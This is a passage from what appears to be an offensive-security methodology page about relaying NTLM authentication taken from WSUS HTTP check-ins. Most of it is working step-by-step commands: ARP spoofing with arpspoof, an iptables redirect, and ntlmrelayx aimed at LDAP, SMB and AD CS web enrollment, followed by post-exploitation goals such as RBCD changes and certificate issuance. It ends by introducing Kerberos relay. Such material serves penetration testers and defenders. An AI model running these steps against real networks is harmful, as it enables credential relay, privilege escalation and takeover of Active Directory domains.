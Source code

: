 End-to-end HTTP relay steps
1) Position for MITM (same L2) so a client resolves the WSUS server to you (ARP/DNS poisoning, Bettercap, mitm6, etc.). Example with arpspoof:
    arpspoof -i <iface> -t <wsus_client_ip> <wsus_server_ip>

2) Redirect port 8530 to your relay listener (optional, convenient):
    iptables -t nat -A PREROUTING -p tcp --dport 8530 -j REDIRECT --to-ports 8530
    iptables -t nat -L PREROUTING --line-numbers

3) Start ntlmrelayx with the HTTP listener (requires Impacket support for HTTP listener; see PRs below):
    ntlmrelayx.py -t ldap://<DC> -smb2support -socks --keep-relaying --http-port 8530

   Other common targets:
   - Relay to SMB (if signing off) for exec/dump: -t smb://<host>
   - Relay to LDAPS for directory changes (e.g., RBCD): -t ldaps://<DC>
   - Relay to AD CS web enrollment (ESC8) to mint a cert and then authenticate via Schannel/PKINIT:
        ntlmrelayx.py --http-port 8530 -t http://<CA>/certsrv/certfnsh.asp --adcs --no-http-server
     For deeper AD CS abuse paths and tooling, see the AD CS page:

[[../../windows-hardening/active-directory-methodology/ad-certificates/domain-escalation.md]]

4) Trigger a client check-in or wait for schedule. From a client:
    wuauclt.exe /detectnow
   or use the Windows Update UI (Check for updates).

5) Use the authenticated SOCKS sessions (if -socks) or direct relay results for post-exploitation (LDAP changes, SMB ops, or AD CS certificate issuance for later authentication).

HTTPS constraint (8531)
- Passive interception of WSUS over HTTPS is ineffective unless clients trust your certificate. Without a trusted cert or other TLS break, the NTLM handshake can’t be harvested/relayed from WSUS HTTPS traffic.

Notes
- WSUS was announced deprecated but remains widely deployed; HTTP (8530) is still common in many environments.
- Useful helpers: wsusniff.py (observe HTTP WSUS check-ins), wsuspider.sh (enumerate WUServer/WUStatusServer from GPOs), NetExec reg-query at scale.
- Impacket restored HTTP listener support for ntlmrelayx in PR #2034 (originally added in PR #913).

### Force NTLM Logins

In Windows you **may be able to force some privileged accounts to authenticate to arbitrary machines**. Read the following page to learn how:

[[../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md]]

## Kerberos Relay attack

A **Kerberos relay attack** steals an **AP-REQ ticket** from one service and re-uses it against a second service that shares the **same computer-account key** (because both SPNs sit on the same `$` machine account). This works even though the SPNs’ **service classes differ** (e.g. `CIFS/` → `LDAP/`) because the *key* that decrypts the ticket is the machine’s NT hash, not the SPN string itself and the SPN string is not part of the signature.
